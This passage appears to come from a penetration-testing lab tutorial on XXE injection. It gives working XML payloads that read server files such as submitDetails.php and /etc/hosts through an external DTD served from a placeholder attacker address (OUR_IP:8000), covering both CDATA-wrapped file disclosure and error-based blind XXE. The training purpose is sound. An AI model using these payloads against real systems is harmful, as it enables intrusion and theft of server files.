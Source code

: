 let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```shell-session
Staphy@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
Staphy@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

> This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks.

## Error Based XXE

if the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

First we need to cause an error,we  can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity.

Let's host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

`%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
